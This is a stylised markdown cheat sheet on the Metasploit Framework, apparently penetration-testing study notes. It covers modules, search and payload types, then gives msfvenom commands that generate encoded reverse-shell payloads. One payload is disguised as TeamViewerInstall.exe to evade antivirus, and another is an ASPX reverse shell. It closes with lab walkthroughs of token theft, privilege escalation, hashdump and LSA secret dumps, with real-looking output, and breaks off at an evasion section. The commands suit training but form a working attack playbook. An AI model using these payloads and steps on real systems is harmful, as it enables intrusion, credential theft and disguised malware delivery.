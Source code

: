 
# 🕷️ Metasploit Framework  
*Within this eldritch grimoire lies a vast arsenal of arcane tools for network divination, weaving attacks, and unraveling the deepest secrets of target systems. Harness its dark power to evade the watchful eyes, ascend to forbidden privileges, and command dominion after the breach.*

> *“To command the shadows is to master the unseen forces that bind the network.”*

<details>
<summary><h2>⚠️ Warnings to the Seeker of Shrouded Truth ⚠️</h2></summary>

* **Do not get tunnel vision.**
> *Beware the madness that comes from gazing too long into a single artifact. The Framework is but one relic among many—do not let it become your crutch or your altar. Use it with intent, not dependence.*

* **Please read all the technical documentation you can find for any of our tools.**
> *Before invoking forgotten runes, one must study the glyphs etched in the margins of the old tomes. Knowledge is the warding circle that keeps the daemon in the cage. Read. Absorb. Comprehend.*

* **Many tools can prove to be unpredictable.**
> *Every incantation comes with a price. Some conjurations may awaken watchers, leaving ghostly footprints across the target's domain. Others may tear open rifts in your own sanctum. Always proceed with wards in place and a retreat mapped.*

</details>

---

<details>
<summary><h2>📥 Installation</h2></summary>

The official Metasploit Repository can be found [here](https://github.com/rapid7/metasploit-framework/).  

**Install**

```bash
sudo apt update && sudo apt install metasploit-framework
```

**Verify installation**

```bash
msfconsole -q
```

</details>

---

<details>
<summary><h2>📜 Introduction</h2></summary>

**Modules**

```bash
ls /usr/share/metasploit-framework/modules
```  

**Plugins**

```bash
ls /usr/share/metasploit-framework/plugins/
```  

**Scripts**

```bash
ls /usr/share/metasploit-framework/scripts/
```  

**Tools**

```bash
ls /usr/share/metasploit-framework/tools/
```  

</details>

---

<details>
<summary><h2>🧩 MSF Components</h2></summary>

<details>
<summary><h3>Modules</h3></summary>

Metasploit modules are pre-built scripts designed for specific tasks, each with corresponding functions that have been thoroughly developed and tested in real-world scenarios.

Within the msfconsole, users can choose from a comprehensive collection of available Metasploit modules. These modules are organized into folders, displayed in the following structure:

**Syntax**  

```bash
<No.> <type>/<os>/<service>/<name>
```  

**Example**  

```bash
794   exploit/windows/ftp/scriptftp_list
```  

<details>
<summary><h4>Explanation</h4></summary>

**Index No.**

The No. tag will be displayed to select the exploit we want afterward during our searches.

**Type**

The **Type** tag categorizes Metasploit modules at the highest level. By examining this field, we can determine the module’s intended function. Some types—such as exploit modules—are not directly executable but exist for structural and organizational purposes.

The table below consolidates all possible module types, their descriptions, and indicates whether they can be directly interacted with (e.g., via **use <no.>**).

| Type      | Description                                                                                   | Interactable |
|-----------|-----------------------------------------------------------------------------------------------|--------------|
| Auxiliary | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.| ✅           |
| Encoders  | Ensure that payloads are intact to their destination.                                         | ❌           |
| Exploits  | Exploit a vulnerability that allows for payload delivery.                                     | ✅           |
| NOPs      | (No Operation code) Keep payload sizes consistent across exploit attempts.                    | ❌           |
| Payloads  | Code that runs remotely and calls back to the attacker to establish a connection or shell.    | ❌           |
| Plugins   | Additional scripts integrated within assessments via `msfconsole`.                            | ❌           |
| Post      | Modules for information gathering, pivoting deeper into the network, and more.                | ✅           |

**OS**  

The OS tag indicates the target operating system and architecture for which the module was designed. Since different operating systems require distinct code execution methods, this tag ensures compatibility with the intended environment.

**Service**  

The Service tag identifies the vulnerable service running on the target machine. However, for certain modules (e.g., auxiliary or post), this tag may represent a broader action—such as _gather_—which refers to activities like credential collection.

**Name**

The Name tag describes the module's core function—the specific action it performs for its intended purpose.

</details>

<details>
<summary><h4>Search</h4></summary>

Search function

```bash
msf6 > help search
```  

Searching for a module

```bash
msf6 > search eternalblue
```  

Specific search

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```  

Specific payload search

```bash
msf6 > grep meterpreter show payloads
```

Even more specific search

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
```

</details>

<details>
<summary><h4>Select</h4></summary>

Select Module

```bash
msf6 > use 0
```  

Show options

```bash
msf6 > options
```  

</details>

<details>
<summary><h4>Set</h4></summary>

**Target Specification**

```bash
msf6 > set RHOSTS <TARGET IP>
```  

**Permanent Target Specification**

```bash
msf6 > setg RHOSTS <TARGET IP>
```  

**Target Port Specification**

```bash
msf6 > set RPORT <TARGET PORT>
```  

**Attacker IP specification**

```bash
msf6 > set LHOST <ATTACKER IP>
```  

**Permanent Attacker IP specification**

```bash
msf6 > setg LHOST <ATTACKER IP>
```  

**Attacker Port Specification**

```bash
msf6 > set LPORT 4444
```  

</details>

<details>
<summary><h4>Information</h4></summary>

Show info

```bash
msf6 > info
```  

</details>

<details>
<summary><h4>Exploit Execution</h4></summary>

Execute

```bash
msf6 > run
```

</details>

</details>


<details>
<summary><h3>Common Payloads</h3></summary>

The table below contains the most common payloads used for Windows machines and their respective descriptions.


| Payload                             | Description                                                                 |
|-------------------------------------|-----------------------------------------------------------------------------|
| generic/custom                      | Generic listener, multi-use                                                |
| generic/shell_bind_tcp              | Generic listener, multi-use, normal shell, TCP connection binding          |
| generic/shell_reverse_tcp           | Generic listener, multi-use, normal shell, reverse TCP connection          |
| windows/x64/exec                    | Executes an arbitrary command (Windows x64)                                |
| windows/x64/loadlibrary             | Loads an arbitrary x64 library path                                        |
| windows/x64/messagebox              | Spawns a dialog via MessageBox with customizable title, text & icon        |
| windows/x64/shell_reverse_tcp       | Normal shell, single payload, reverse TCP connection                       |
| windows/x64/shell/reverse_tcp       | Normal shell, stager + stage, reverse TCP connection                       |
| windows/x64/shell/bind_ipv6_tcp     | Normal shell, stager + stage, IPv6 Bind TCP stager                         |
| windows/x64/meterpreter/$           | Meterpreter payload + varieties above                                      |
| windows/x64/powershell/$            | Interactive PowerShell sessions + varieties above                          |
| windows/x64/vncinject/$             | VNC Server (Reflective Injection) + varieties above  

</details>

<details>
<summary><h3>Targets</h3></summary>

The **Target** field specifies particular operating system versions that the exploit module has been adapted to work with. These unique OS identifiers allow the module to customize its execution for specific system versions.

**Show Targets**  

```bash
msf6 > show targets
```

Regular output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
```

Exploit-specific output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
#    1   IE 7 on Windows XP SP3
#    2   IE 8 on Windows XP SP3
#    3   IE 7 on Windows Vista
#    4   IE 8 on Windows Vista
#    5   IE 8 on Windows 7
#    6   IE 9 on Windows 7
```

**Select Targets**  

```bash
msf6 > set target 6
```

</details>

<details>
<summary><h3>Payloads</h3></summary>

In Metasploit, a payload is a module that enables successful exploitation, typically by establishing a shell session for the attacker. 

**Show all payloads**

```bash
msf6 > show payloads
```

The framework provides three distinct payload types:


<details>
<summary><h4>1. Singles</h4></summary>

A _Single_ payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. A Single payload can be as simple as adding a user to the target system or booting up a process.
</details>

<details>
<summary><h4>2. Stagers</h4></summary>

_Stager_ payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.  

</details>

<details>
<summary><h4>3. Stages</h4></summary>

_Stages_ are payload components that are downloaded by stager's modules.  

Payload stages automatically use middle stagers:

* A single recv() fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

</details>

</details>

<details>
<summary><h3>Staged Payloads</h3></summary>

A staged payload modularizes the exploitation process by separating functionality into discrete components. Each stage performs specific tasks while chaining together to execute the complete attack.

Like all payloads, its objectives are twofold:

1. Establish shell access on the target system

2. Maintain minimal footprint to evade AV/IPS detection

**Connection Methodology:**

* Stage 0 (Reverse Connection):

    * The victim host initiates contact back to the attacker

    * Lower detection risk as the connection originates from within the target's security trust zone

    * Establishes initial communication channel

* Stage 1 (Shell Access):

    * After stable connection is established

    * Attacker delivers the larger, more functional payload component

    * Typically provides full shell access and control

<details>
<summary><h4>Meterpreter Payload</h4></summary>

The Meterpreter payload is a specific type of multi-faceted payload that:

- Uses **DLL injection** to establish a stable and covert connection with the victim host.
- Is designed to be **difficult to detect** using simple or conventional system checks.
- Maintains **persistence** across system reboots or changes (depending on configuration).
- Resides **entirely in memory**, leaving **no traces on the hard drive**.
- Evades many **traditional forensic detection techniques**.
- Allows **dynamic loading and unloading of scripts and plugins** during runtime.

</details>

</details>

<details>
<summary><h3>Encoders</h3></summary>

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These architectures include:

- x64
- x86
- sparc
- ppc
- mips

Encoders were packed separately from the msfconsole script and were called **msfpayload** and **msfencode**. These two tools are located in _/usr/share/framework2/_.

**Generating Payload - Without Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -b "\x00" -f perl
```  

**Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe running it through multiple iterations**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -e x86/shikata_ga_nai -f exe -i 10 -o ./TeamViewerInstall.exe
```  

As anticipated, most commercial antivirus solutions can detect these payloads during real-world engagements. Therefore, additional evasion techniques become necessary to bypass modern endpoint protection systems.

</details>

<details>
<summary><h3>Databases</h3></summary>

The Metasploit Framework utilizes databases within msfconsole to systematically store and manage penetration testing results. The system features native PostgreSQL integration, providing:

**Key Benefits:**

* Instant access to scan results and historical data

* Efficient data management through direct database interaction

* Seamless import/export functionality for integration with external tools

<details>
<summary><h4>Setting up the Database</h4></summary>

**PostgreSQL Status**

```bash
sudo service postgresql status
```  

**Start PostgreSQL**
```bash
sudo systemctl start postgresql
```  

**Initiate a Database**
```bash
sudo apt-get upgrade metasploit-framework
sudo msfdb init
```  

**MSF - Database Status**

```bash
sudo msfdb status
``` 

**MSF - Connect to the Initiated Database**  

```bash
sudo msfdb run
``` 

If your database is already configured but you're unable to modify the MSF user password, use the following command sequence:

**MSF - Reinitiate the Database**

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
``` 

**MSF - msf6 Database Status**

```bash
msf6 > db_status
``` 

**MSF - Database Options**  

```bash
msf6 > help database
``` 

**MSF - Using Nmap Inside MSFconsole**  

```bash
msf6 > db_nmap -sV -sS <TARGET IP>
``` 

**MSF - Review scan results**  

```bash
msf6 > hosts -h
msf6 > services -h
msf6 > creds -h
msf6 > loot -h
``` 

**MSF - Database Backup**  

```bash
msf6 > db_export -f xml backup.xml
``` 

</details>

</details>

<details>
<summary><h3>Plugins</h3></summary>

Metasploit plugins interact directly with the framework’s API, enabling deep integration and control. They serve three primary purposes:

* Automation – Streamline repetitive tasks

* Extensibility – Add custom commands to msfconsole

* Enhancement – Expand the framework’s built-in capabilities

**Listing plugins**  

```bash
ls /usr/share/metasploit-framework/plugins
``` 

**MSF - Load Plugin**  

```bash
msf6 > load nessus
msf6 > nessus_help
``` 

**Downloading plugins**  

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
``` 

**MSF - Copying Plugin to MSF**  

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
``` 

**MSF - Load the new plugin**  

```bash
msf6 > load pentest
msf6 > help
``` 

</details>

</details>

---

<details>
<summary><h2>🤝 MFS Sessions</h2></summary>

<details>
<summary><h3>Sessions</h3></summary>

**Multi-Session Management in MSFconsole**

MSFconsole supports concurrent management of multiple modules and sessions. Key capabilities include:

1. Session Switching – Seamlessly transition between active sessions

2. Module Linking – Attach new modules to backgrounded sessions

3. Job Conversion – Convert sessions into persistent background jobs

**Important Notes:**

* Backgrounded sessions maintain active connections to target hosts

* Sessions may terminate unexpectedly due to:

    * Payload execution failures

    * Communication channel disruptions

**Backgrounding Sessions in MSFconsole**  

Active sessions can be backgrounded when they maintain communication with the target host. This allows operators to:

* Preserve established connections

* Switch between multiple engagements

* Deploy additional modules without session interruption

**Backgrounding Methods:**

1. Keyboard Shortcut: CTRL+Z (Universal)

2. Meterpreter Command: meterpreter > bg

**Process Flow:**

1. Initiate background request

2. Confirm action via prompt

3. Return to msf6

4. Immediately deploy new modules

**Listing Active Sessions**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions
```  

**Interacting with a Session**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
``` 

</details>

<details>
<summary><h3>Jobs</h3></summary>

When an active exploit occupies a port needed for another module, improper termination (e.g., CTRL+C) leaves the port bound. Instead, follow this procedure:

**1. Check Active Jobs**

```bash
msf6 > jobs -l
``` 

**2. Terminate Conflicts**

```bash
msf6 > jobs -k <ID>
``` 

**Jobs Command Help Menu**  

```bash
msf6 > jobs -h
``` 

**Running an Exploit as a Background Job**  

```bash
msf6 > exploit -j
``` 

</details>

<details>
<summary><h3>Meterpreter</h3></summary>

The Meterpreter payload is an advanced, modular attack platform that employs sophisticated techniques to maintain stealth and persistence:

<details>
<summary><h4>Objectives</h4></summary>

* Provide a stable, extensible platform for internal host enumeration

* Facilitate rapid privilege escalation path discovery

* Enable advanced defensive evasion techniques

</details>

<details>
<summary><h4>Capabilites</h4></summary>

* Utilizes reflective DLL injection for stable, low-detectability implants

* Supports memory-only operation (no disk artifacts)

* Features configurable persistence mechanisms

</details>

<details>
<summary><h4>Operational Advantages</h4></summary>

1. Stealth Characteristics

    * No traditional process spawning

    * Avoids disk writes (in-memory execution only)

    * Encrypted communications channel

2. Persistence Options

    * Survives system reboots when properly configured

    * Maintains sessions through network changes

    * Supports migration between processes

3. Extended Functionality

    * Modular architecture for on-demand capability expansion

    * Built-in privilege escalation techniques

    * Comprehensive post-exploitation toolkit
</details>

<details>
<summary><h4>Using Meterpreter</h4></summary>

Displays a list of available Meterpreter commands and their descriptions.

```bash
meterpreter > help
``` 

Shows the current user (UID) that the Meterpreter session is running under.

```bash
meterpreter > getuid
``` 

Lists all running processes on the target system, including PIDs and owners.

```bash
meterpreter > ps
``` 

Steals the security token from a specified process (PID 1836) to impersonate its privileges.

```bash
meterpreter > steal_token 1836
``` 

Dumps the password hashes of all local user accounts (stored in the SAM database).

```bash
meterpreter > hashdump
``` 

Extracts and displays password hashes from the Security Account Manager (SAM) via the LSASS process.

```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam
``` 

Retrieves encrypted secrets (like cached credentials and auto-login passwords) from the LSASS memory.

```bash
meterpreter > lsa_dump_secrets
``` 

</details>

<details>
<summary><h4>Example Compromise Walkthrough</h4></summary>



**MSF - Meterpreter Migration**

```bash
meterpreter > getuid
# [-] 1055: Operation failed: Access is denied.

meterpreter > ps
# Process List
# ============
# 
#  PID   PPID  Name               Arch  Session  User                          Path
#  ---   ----  ----               ----  -------  ----                          ----
#  0     0     [System Process]                                                
#  4     0     System                                                  #         
#  216   1080  cidaemon.exe                                                    
#  272   4     smss.exe                                                     #    
#  292   1080  cidaemon.exe                                                    
# <...SNIP...>

# 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe


meterpreter > steal_token 1836
# Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

# Server username: NT AUTHORITY\NETWORK SERVICE

``` 

**MSF - Meterpreter Migration**
```bash
meterpreter > bg

# Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

# Matching Modules
# ================
# 
#    #  Name                                      Disclosure Date  Rank    Check  Description
#    -  ----                                       ---------------  ----    -----  -----------
#    0  post/multi/recon/ local_exploit_suggester                   normal   No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

# Module options (post/multi/recon/local_exploit_suggester):
# 
#    Name             Current Setting  Required  Description
#    ----             ---------------  --------  -----------
#    SESSION                           yes       The session to run this module on
#    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] 10.10.10.15 - Collecting local exploits for x86/windows...
# [*] 10.10.10.15 - 34 exploit checks are being tried...
# [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed 

msf6 post(multi/recon/local_exploit_suggester) > 
```

**MSF - Privilege Escalation**

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

# [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

# Module options (exploit/windows/local/ms15_051_client_copy_image):

#    Name     Current Setting  Required  Description
#    ----     ---------------  --------  -----------
#    SESSION                   yes       The session to run this module on.


# Payload options (windows/meterpreter/reverse_tcp):

#    Name      Current Setting  Required  Description
#    ----      ---------------  --------  -----------
#    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
#    LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
#    LPORT     4444             yes       The listen port


# Exploit target:

#    Id  Name
#    --  ----
#    0   Windows x86

msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1

# SESSION => 1

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

# LHOST => tun0

msf6 exploit(windows/local/ms15_051_client_copy_image) > run

# [*] Started reverse TCP handler on 10.10.14.26:4444 
# [*] Launching notepad to host the exploit...
# [+] Process 844 launched.
# [*] Reflectively injecting the exploit DLL into 844...
# [*] Injecting exploit into 844...
# [*] Exploit injected. Injecting payload into 844...
# [*] Payload injected. Executing exploit...
# [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
# [*] Sending stage (175174 bytes) to 10.10.10.15
# [*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

**MSF - Dumping Hashes**

```bash
meterpreter > hashdump

# Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
# ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
# IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
# Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
# SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::

meterpreter > lsa_dump_sam

# [+] Running as SYSTEM
# [*] Dumping SAM
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
# Local SID : S-1-5-21-1709780765-3897210020-3926566182

# SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

# RID  : 000001f4 (500)
# User : Administrator
#   Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
#   Hash NTLM: d6908f022af0373e9e21b8a241c86dca

# RID  : 000001f5 (501)
# User : Guest

# RID  : 000003e9 (1001)
# User : SUPPORT_388945a0
#   Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

# RID  : 000003eb (1003)
# User : IUSR_GRANPA
#   Hash LM  : a274b4532c9ca5cdf684351fab962e86
#   Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

# ...
```

**MSF - Meterpreter LSA Secrets Dump**

```bash
meterpreter > lsa_dump_secrets

# [+] Running as SYSTEM
# [*] Dumping LSA secrets
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

# Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
# Domain name : HTB

# Policy subsystem is : 1.7
# LSA Key : ada60ee248094ce782807afae1711b2c

# Secret  : aspnet_WP_PASSWORD
# cur/text: Q5C'181g16D'=F

# Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
# cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

# Secret  : DPAPI_SYSTEM
# cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
#     full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
#     m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

# Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
# cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

# Secret  : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
# cur/hex : 00 f2 d1 31 e2 11 d3 01 

# Secret  : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d

```

</details>

</details>

</details>

---

<details>
<summary><h2>➕ Additional Features</h2></summary>

<details>
<summary><h3>Importing Modules</h3></summary>

**Required Formatting**

* **Character Set**

    * ✅ Alphanumeric characters only (a-z, 0-9)

    * ✅ Underscores (_) for word separation

* **Case Standard**

    * Exclusive use of snake_case (all lowercase)

    * Example: exploit/windows/http/example_module.rb

* **Prohibited Elements**

    * ❌ Hyphens (-) or spaces

    * ❌ Special characters (@, #, &, etc.)

    * ❌ Uppercase letters

* **Common Error Scenarios**

    1. Hyphen Misuse

        * ❌ Invalid: my-module.rb

        * ✅ Valid: my_module.rb

    2. Case Sensitivity

        * ❌  Invalid: MyModule.rb

        * ✅ Valid: my_module.rb  

<details>
<summary><h4>Full Upgrade</h4></summary>

To incorporate community-developed modules into your Metasploit installation:

Execute:

```bash
msfupdate
``` 

This fetches all newly integrated:

* Exploit modules

* Auxiliary components

* Framework enhancements

</details>

<details>
<summary><h4>Manual</h4></summary>

1. Source Selection

    * Prioritize ExploitDB for verified modules

    * Filter using the "Metasploit Framework (MSF)" tag to ensure compatibility

2. Installation

Download module:

```bash
wget <EXPLOIT URL> -O /usr/share/metasploit-framework/modules/exploits/<CATEGORY>/<EXPLOIT>
``` 

3. Verification

Search within msfconsole:

```bash
msf6 > reload_all
msf6 > search type:exploit <module_name>
``` 

</details>

</details>

<details>
<summary><h3>Introduction to MSFVenom</h3></summary>

MSFVenom replaces the legacy MSFPayload and MSFEncode utilities, combining their functionality into a single powerful tool. As the modern payload generation framework for Metasploit, it enables security professionals to craft highly customizable and evasive payloads while maintaining full integration with msfconsole for exploit delivery.

<details>
<summary><h4>Creating Our Payloads</h4></summary>

**Generating Payload**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=4444 -f aspx > reverse_shell.aspx
``` 

**MSF - Setting Up Multi/Handler**  

```bash
msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST <ATTACKER IP>
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
``` 

**Executing the Payload**

_Navigate to the upload path_ (e.g. http://TARGET/reverse_shell.aspx)

**MSF - Meterpreter Shell**

```bash
# [*] Started reverse TCP handler on <ATTACKER IP>:4444 

# [*] Sending stage (176195 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:<TARGET PORT>) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

# Server username: IIS APPPOOL\Web
``` 

**Executing the Payload**

```bash
meterpreter > background

msf6 > search local exploit suggester

msf6 > use post/multi/recon/local_exploit_suggester

msf6 post(multi/recon/local_exploit_suggester) > show options

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] <TARGET IP> - Collecting local exploits for x86/windows...
# [*] <TARGET IP> - 31 exploit checks are being tried...
# [+] <TARGET IP> - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] <TARGET IP> - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] <TARGET IP> - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
# [+] <TARGET IP>\ - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] <TARGET IP>\ - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] <TARGET IP>\ - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
# [+] <TARGET IP>\ - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
# [+] <TARGET IP>\ - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed
``` 

**MSF - Local Privilege Escalation**

```bash
msf6 exploit(multi/handler) > search kitrap0d

msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d

msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2

msf6 exploit(windows/local/ms10_015_kitrap0d) > run

# [*] Started reverse TCP handler on <ATTACKER IP>:4445 
# ...
# [*] Meterpreter session 4 opened (<ATTACKER IP>:4445 -> <TARGET IP>:<TARGET PORT>) at 2020-08-28 17:15:56 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

</details>

</details>

<details>
<summary><h3>Firewall and IDS/IPS evasion</h3></summary>

<details>
<summary><h4>Terms</h4></summary>

To better learn how we can efficiently and quietly attack a target, we first need to understand better how that target is defended. It is important to understand these two terms:

* **Endpoint protection:** Endpoint protection refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (DMZ).

* **Security Policies:** They are essentially a list of allow and deny statements that dictate how traffic or files can exist within a network boundary. These lists can also target different features of the network and hosts, depending on where they reside:

    * Network Traffic Policies
